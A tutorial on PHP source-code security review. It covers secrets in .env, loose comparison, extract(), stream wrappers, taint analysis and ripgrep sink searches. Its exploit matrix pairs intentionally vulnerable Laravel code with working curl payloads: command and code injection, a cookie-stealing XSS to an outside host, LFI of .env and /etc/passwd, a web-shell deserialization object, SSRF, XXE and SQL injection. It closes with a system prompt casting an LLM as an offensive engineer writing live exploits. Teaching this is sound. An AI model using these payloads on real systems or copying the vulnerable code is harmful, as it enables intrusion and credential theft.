

import { AlertTriangle, ShieldAlert, Terminal, Zap } from 'lucide-react';

## The First 10 Minutes of Triage

When you first gain access to a PHP codebase, your goal isn't to read every file—that would take forever. Instead, you need to **triage** the application: quickly find the most valuable targets and map out where attacks can happen.

### Initial Triage: The "Kill Chain" Files

Two files tell you almost everything you need to know about an application's security posture:

**1. `.env` — The Secrets Vault**
It often contains:
- Database usernames and passwords
- Third-party API keys (Stripe, AWS, SendGrid, etc.)
- Encryption keys (`APP_KEY`)
- Debug settings

**2. `composer.json` — The Dependency Map**
This reveals:
- Exact framework versions (Laravel, Symfony, etc.)
- Third-party libraries and their versions

**Pro Tip:** If you see a framework version from 2+ years ago, there's almost certainly a public exploit for it. Check packagist.org or snyk.io for known vulnerabilities.

### Real-World Impact: Why These Files Matter

#### Case Study 1: `APP_DEBUG=true`

When debug mode is left on in production, every error becomes a data leak. A simple 404 page can expose:
- Full internal file paths (revealing server structure)
- Database connection strings (with credentials)
- Exact library versions (so attackers know which exploits to use)

#### Case Study 2: Leaked `APP_KEY`

Modern PHP frameworks (like Laravel) use `APP_KEY` to:
- Sign session cookies (forge valid sessions = bypass login)
- Encrypt sensitive data
- Sign serialized objects

If an attacker gets this key, they can forge admin cookies or craft malicious serialized objects to run code on your server. This is called **Insecure Deserialization** or **Object Injection**.

### Attack Surface Mapping: Finding the Doors

Routing files are like a building's floor plan—they show you every entrance. Check these files:
- `routes/web.php` — Regular web pages
- `routes/api.php` — API endpoints
- `routes/index.php` — Legacy or custom routing

**What you're hunting for:** Endpoints placed **outside** authentication middleware groups. These are "unlocked doors" that anyone can walk through.

```php
// DANGER: This route has NO protection
Route::get('/admin/export', [AdminController::class, 'exportAllData']);

// SAFE: This route requires login
Route::middleware(['auth'])->group(function () {
    Route::get('/settings', [UserController::class, 'settings']);
});
```

---

## Understanding Data Flow

Before diving into specific bugs, you need to understand how data moves through an application. These four concepts are the foundation of **taint analysis**—tracking dangerous data from entry to execution.



| Concept | Simple Definition | Example |
|---------|----------------|---------|
| **Source** | Where untrusted data enters your app | `$_GET['id']`, `$request->input('email')`, uploaded files |
| **Sink** | A dangerous function that can execute or expose data | `system()`, `eval()`, `file_get_contents()` |
| **Middleware** | Security guards that check requests before they reach your code | Authentication, rate limiting, logging |
| **Sanitizer/Validator** | Attempts to clean or restrict dangerous input | `htmlspecialchars()`, regex filters, input validation |

<div className="my-6 p-4 border-l-4 border-red-500 bg-red-500/10 rounded-r flex flex-col gap-2">
  <div className="flex items-center gap-2 text-red-500 font-semibold">
    <ShieldAlert size={18} />
    Critical Warning
  </div>
  <p className="m-0 text-sm text-foreground/80">
    Sanitizers fail <strong>all the time</strong>. Developers often use flawed regex, create blacklists that miss edge cases, or assume stripping HTML tags stops all attacks. <strong>Never trust sanitization alone.</strong>
  </p>
</div>

---

## Hunting PHP-Specific

PHP has some unique behaviors that create security holes. Understanding these is essential.

### 1. Loose Comparison (`= =` vs `= = =`)

PHP's `= =` compares values **after converting types**. This creates "Magic Hashes"—different strings that PHP thinks are equal.

```php
// These two MD5 hashes both start with "0e" followed by ONLY numbers
// PHP treats them as scientific notation: 0 × 10^... = 0
// So: 0 == 0 -> TRUE

$input = "QNKCDZO";        // MD5: 0e462097431906509019562988736854
$stored = "240610708";      // MD5: 0e830400451993494058024219903391

if (md5($input) == md5($stored)) {
    // Authentication BYPASSED Both evaluate to 0 == 0
    loginAsAdmin();
}
```

**The Fix:** Always use `===` (strict comparison) for authentication checks.

### 2. The `extract()` Trap

`extract()` takes an array and creates variables from its keys. If you pass user input to it, attackers can overwrite your internal variables.

```php
$isAdmin = false;           // You're NOT an admin
extract($_GET);             // Attacker sends ?isAdmin=1
if ($isAdmin) {
    grantAdminPrivileges(); // Now they ARE an admin
}
```

**The Fix:** Never use `extract()` with untrusted data. Ever.

### 3. Weak Randomness

PHP's old random functions are **predictable**:

| Function | Why It's Dangerous |
|----------|------------------|
| `rand()` | Uses a weak algorithm, easily predicted |
| `mt_rand()` | Mersenne Twister—mathematically predictable |
| `uniqid()` | Based on system time (microseconds) |

An attacker who observes a few tokens can calculate future ones. This breaks password reset tokens, session IDs, and API keys.

### 4. Stream Wrappers: Files That Aren't Files

PHP can treat URLs and special streams like file paths. The most dangerous is `php://filter`:

```php
// This doesn't execute the file—it returns its source code as base64
include('php://filter/convert.base64-encode/resource=config/database.php');
```

We can use this to steal source code, revealing credentials and logic.

---

## The Vulnerability Exploit Matrix

### Command Injection
The Sink: `system()`, `exec()`, `shell_exec()`, `passthru()`, backticks (`` `command` ``)

Vulnerable Implementation
PHP
```php
public function ping(Request $request) {
    $host = $request->input('host');
    $output = shell_exec("ping -c 4 " . $host);
    return response($output);
}
```
Exploitation (PoC)
```bash
curl -s "http://vuln.com/tools/ping?host=127.0.0.1;id"
```

### Code Injection
The Sink: `eval()`, `assert()`, `create_function()`

Vulnerable Implementation
PHP
```php
public function evaluate(Request $request) {
    $expr = $request->input('expr');
    eval("return " . $expr . ";");
}
```
Exploitation (PoC)

```bash
curl -s "http://vuln.com/tools/calc?expr=system('id')"
```

### Cross-Site Scripting (XSS)
The Sink: `echo`, `print`, unescaped Blade syntax `{!! !!}`

Vulnerable Implementation
PHP
```php
public function welcome(Request $request) {
    echo "<h1>Welcome, " . $request->input('name') . "</h1>";
}
```
Exploitation (PoC)

```bash
curl -s "http://vuln.com/welcome?name=<script>fetch('https://asbawy.comesone/steal?c='+document.cookie)</script>"
```

### File Inclusion (LFI/RFI) & Path Traversal
The Sink: `include`, `require`, `readfile`, `file_get_contents`

Vulnerable Implementation
PHP
```php
public function show(Request $request) {
    $page = $request->input('page');
    include '/var/www/html/pages/' . $page . '.php';
}

public function get(Request $request) {
    $file = $request->input('file');
    readfile('/var/www/html/uploads/' . $file);
}
```
Exploitation (PoC)

```bash
curl -s "http://vuln.com/page?page=php://filter/convert.base64-encode/resource=../../.env"
curl -s "http://vuln.com/files?file=../../../../etc/passwd"
```

### File Upload Attacks
The Sink: `move_uploaded_file()`, `$file->move()`

Vulnerable Implementation
PHP
```php
public function upload(Request $request) {
    $file = $request->file('avatar');
    $filename = $file->getClientOriginalName(); 
    
    // DANGER: Checks the FIRST extension, not the last
    $parts = explode('.', $filename);
    $ext = strtolower($parts[1]); 
    
    if (in_array($ext, ['jpg', 'png', 'gif'])) {
        $file->move(public_path('avatars'), $filename);
    }
}
```
Exploitation (PoC)

```bash
curl -s -F "avatar=@shell.jpg.php" http://vuln.com/upload
```

### Insecure Deserialization (PHP Object Injection)
The Sink: `unserialize()`

PHP's `unserialize()` takes a string and converts it back into a PHP object. The danger arises because PHP automatically calls **"Magic Methods"** (like `__wakeup()` or `__destruct()`) during this process. If an attacker controls the serialized string, they can inject arbitrary objects and trigger these magic methods to execute malicious code.

**The "Gadget" Class (Vulnerable Implementation)**
PHP
```php
class FileLogger {
    public $filename = 'log.txt';
    public $data = 'User logged in';
    
    // Magic method triggered automatically when the object is destroyed
    public function __destruct() {
        file_put_contents($this->filename, $this->data);
    }
}

// SINK: Unserializing untrusted user input
$userData = unserialize($_GET['data']);
```

**How the Exploit Works:**
An attacker crafts a serialized `FileLogger` object where `$filename` is `shell.php` and `$data` is a PHP backdoor. When PHP unserializes it, the malicious object is created in memory. When the script ends, `__destruct()` is automatically called, writing the web shell to the server!

Exploitation (PoC)

```bash
# The URL-encoded payload below translates to this serialized object:
# O:10:"FileLogger":2:{s:8:"filename";s:9:"shell.php";s:4:"data";s:27:"<?php system($_GET['cmd']); ?>";}
curl -s "http://vuln.com/profile?data=O:10:%22FileLogger%22:2:{s:8:%22filename%22;s:9:%22shell.php%22;s:4:%22data%22;s:27:%22%3C?php%20system(%24_GET['cmd']);%20?%3E%22;}"
```

### Server-Side Request Forgery (SSRF)
The Sink: `GuzzleHttp\Client`, `curl_exec`, `file_get_contents`

Vulnerable Implementation
PHP
```php
public function preview(Request $request) {
    $url = $request->input('url');
    $client = new \GuzzleHttp\Client();
    $response = $client->get($url);
    return $response->getBody();
}
```
Exploitation (PoC)

```bash
curl -s "http://vuln.com/link/preview?url=http://[IP_ADDRESS]/latest/meta-data/"
curl -s "http://vuln.com/link/preview?url=http://192.168.1.1:8080/admin"
```

### XML External Entity (XXE) Injection
The Sink: `DOMDocument::loadXML()`, `simplexml_load_string()` with `LIBXML_NOENT`

Note: As of PHP 8.0, libxml disables external entity loading by default. Passing the LIBXML_NOENT flag actively overrides this native security boundary, making it a critical misconfiguration to hunt for.

Vulnerable Implementation
PHP
```php
public function import(Request $request) {
    $xml = $request->input('xml');
    $doc = new \DOMDocument();
    $doc->loadXML($xml, LIBXML_NOENT);
    return response()->json(['success' => true]);
}
```
Exploitation (PoC)

```bash
curl -s -X POST http://vuln.com/import -d 'xml=<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root><data>&xxe;</data></root>'
```

### SQL Injection
The Sink: `DB::raw()`, `whereRaw()`, direct concatenation in queries

Vulnerable Implementation
PHP
```php
$sort = $request->input('sort', 'name');
$users = User::orderBy($sort)->get();

$users = DB::select(DB::raw("SELECT * FROM users WHERE status = '" . $request->input('status') . "'"));
```
Exploitation (PoC)

```bash
curl -s "http://vuln.com/users?sort=(SELECT+IF(1=1,SLEEP(5),0))"
```

---

## Automating the Hunt

### ripgrep (`rg`) — Find Danger Instantly

```bash
# Command Execution Sinks
rg "(system|exec|shell_exec|passthru|proc_open|popen)\s*\(" --type php

# Code Evaluation & Deserialization
rg "(eval|assert|unserialize|create_function)\s*\(" --type php

# SQLi Escape Hatches
rg "(DB::raw|whereRaw|orderByRaw|selectRaw|havingRaw)\s*\(" --type php

# File Operation Sinks
rg "(include|require|include_once|require_once|readfile|file_get_contents|file_put_contents|move_uploaded_file)\s*\(" --type php

# XXE Sinks
rg "(loadXML|simplexml_load_string|simplexml_load_file)\s*\(" --type php

# Dangerous Functions
rg "(extract|parse_str|mb_parse_str)\s*\(" --type php
```

---

## Scaling with AI-Assisted Auditing

Standard AI queries give generic answers. Use this **System Prompt** to turn any LLM into a targeted security analyst:

```text
You are an elite offensive security engineer performing source code review on a PHP application. Your objective is to identify critical vulnerabilities with zero false positives.

Rules of Engagement:
1. TAINT ANALYSIS: For every finding, strictly trace the data flow. Identify the exact SOURCE (e.g., $request->input()), the exact SINK (e.g., system()), and state whether sanitization exists between them.
2. PROOF OF CONCEPT: Provide a functional, curl-based exploit payload for every vulnerability found. No theoretical exploits.
3. DEPENDENCY CONTEXT: If a vulnerability relies on a specific framework version or library, explicitly state version requirements and reference the CVE.
4. FALSE POSITIVE ELIMINATION: Ignore vulnerabilities protected by framework default middleware (e.g., CSRF tokens on POST routes) unless a bypass is demonstrated. Ignore magic hash vulnerabilities unless the code explicitly uses loose comparison (==) on MD5/SHA1 hashes.
5. OUTPUT FORMAT: Return findings strictly as:
   - [SEVERITY] Vulnerability Name
   - File: [Path]
   - Source: [Code Snippet]
   - Sink: [Code Snippet]
   - Exploit: [Curl command or Payload]

Analyze the following codebase:
[INSERT CODEBASE SNIPPETS HERE]
```

## References
- PHP Official Documentation: https://www.php.net/docs.php
- OWASP PHP Security Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/PHP_Configuration_Cheat_Sheet.html
- Packagist Security Advisories: https://packagist.org/security-advisories
